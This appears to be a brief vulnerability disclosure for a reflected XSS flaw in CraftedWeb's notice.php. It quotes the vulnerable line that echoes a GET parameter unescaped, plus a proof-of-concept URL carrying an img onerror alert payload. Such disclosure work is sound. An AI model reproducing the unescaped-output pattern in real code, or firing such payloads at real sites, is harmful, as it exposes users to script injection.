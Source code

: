 ### There is a XSS on the notice.php page

Powered by Shiyan 

##### Vulnerability analysis：

In the notice.php page, the wrong code was used, resulting in the existence of XSS vulnerability. 

##### Loophole code:

CraftedWeb//aasp_includes/pages/notice.php

Eleventh lines

```
<?php echo $_GET['e']; ?>
```

##### Reflected XSS PoC:

```
http://127.0.0.1/CraftedWeb//aasp_includes/pages/notice.php?e=1<img src=x onerror=alert('shiyan')>
```

##### Vulnerability trigger screenshot：

![1](C:\Users\lizhonghua\Desktop\新建文件夹\1\1.PNG)

Note: the vulnerability will be exploited by malicious users. 